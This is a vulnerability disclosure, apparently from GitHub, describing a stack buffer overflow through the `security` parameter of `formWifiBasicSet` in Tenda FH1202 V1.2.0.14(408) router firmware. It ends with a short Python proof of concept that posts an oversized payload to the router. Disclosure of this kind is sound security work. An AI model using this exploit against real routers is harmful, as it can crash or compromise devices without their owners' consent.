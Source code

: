 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `v30` variable receives the `security` parameter from a POST request and is later assigned to the `v33` variable, which is fixed at 256 bytes. However, since the user can control the input of `security`, the statement `strcpy(v33, v30);` can cause a buffer overflow. The user-provided `security` can exceed the capacity of the `v33` array, triggering this security vulnerability.

![image-20240319221819491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221819491.png)

![image-20240319221952603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221952603.png)

![image-20240319222011509](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319222011509.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':'1', 
    'hideSsid':'1', 
    'ssid':'1',
    'security':payload, 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)
